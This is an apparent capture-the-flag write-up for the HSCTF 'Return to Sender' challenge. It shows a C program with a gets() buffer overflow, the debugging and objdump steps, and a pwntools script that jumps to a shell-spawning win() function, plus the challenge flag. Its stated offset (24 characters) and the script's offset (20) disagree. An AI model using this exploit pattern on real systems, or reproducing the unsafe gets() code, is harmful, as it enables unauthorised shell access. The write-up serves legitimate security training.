


# Return to Sender

## Challenge

"Who knew the USPS could lose a letter so many times?

nc pwn.hsctf.com 1234

6/3/19 7:34 AM: Updated binary, SHA-1: 104fb76c3318fb44130c4a8ee50ac1a2f52d4082 return-to-sender"

You can download the problem files here [return-to-sender](return-to-sender) [return-to-sender.c](return-to-sender.c)

## Process

Return to sender is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void win() {
	system("/bin/sh");
}

void vuln() {
	char dest[8];
	printf("Where are you sending your mail to today? ");
	gets(dest);
	printf("Alright, to %s it goes!\n", dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;	
}
```

I immediately noticed the line

```
	gets(dest);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win() {
	system("/bin/sh");
}
```

This tells us that we want to jump into the function win(). I ran gbd on the file and supplied more than enough characters to cause errors. I inputted letters in groups of four alphabetically to make it easier to determine how large of an offset I'll need in my exploit script. 



0x46464646 overflowed into the stack pointer. 0x46 in hexadecimal is the letter "F" in ascii. That means 24 characters will cause a bufferoverflow, and the last four characters will overwrite the stack pointer.

I than ran an object dump on the given elf file to find the address of the function win(). You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objdump -d return-to-sender > objectdump-d.txt
```

The important part of the dump is the address of win, which is 0x080491b6

```
080491b6 <win>:
 80491b6:	55                   	push   %ebp
 80491b7:	89 e5                	mov    %esp,%ebp
 80491b9:	53                   	push   %ebx
 80491ba:	83 ec 04             	sub    $0x4,%esp
 80491bd:	e8 d1 00 00 00       	call   8049293 
```

I wrote this python script to perform the bufferoverflow [payloader.py](payloader.py) and ran it. Afterwards I ran ls and cat to get the flag.

```
from pwn import * 
connection = remote('pwn.hsctf.com', 1234)
#through fuzzing we found buffer
offset = 20
#through objdump -d we found the address of win as 0x080491b6
#0x080491e1 is address of vuln 
address = p32(0x080491b6)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
#after performing the buffer overflow we still need to cat the flag
connection.interactive()

#The flag is hsctf{fedex_dont_fail_me_now}
```



The flag is hsctf{fedex_dont_fail_me_now}